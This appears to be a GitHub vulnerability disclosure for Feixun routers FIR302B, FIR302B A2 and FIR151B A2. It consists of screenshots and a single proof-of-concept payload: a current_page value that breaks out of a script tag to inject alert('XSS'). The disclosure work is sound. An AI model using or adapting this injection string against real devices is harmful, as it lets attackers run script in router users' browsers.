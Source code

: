 # feixun-xss

## Affected models: FIR302B、FIR302B A2、FIR151B A2 


### FIR302B   
![image](https://user-images.githubusercontent.com/72059221/180923899-f89ee4d9-1d67-4519-ae64-7862de8e4f12.png)   



### FIR151B A2  
![image](https://user-images.githubusercontent.com/72059221/180923638-4318f198-6953-415a-a5c2-c9674d2b4392.png) 



## Payload

```
current_page=</script><script>alert("XSS")</script>;//
```

![image](https://user-images.githubusercontent.com/72059221/180924002-2a856f5e-36c6-4a18-8470-91db505da403.png)  





![image](https://user-images.githubusercontent.com/72059221/180924075-f26ca398-50a4-4749-9a77-59b1d1c1fbce.png)

![image](https://user-images.githubusercontent.com/72059221/180924150-5c7565db-4423-4f3b-acb4-2d01178e355c.png)
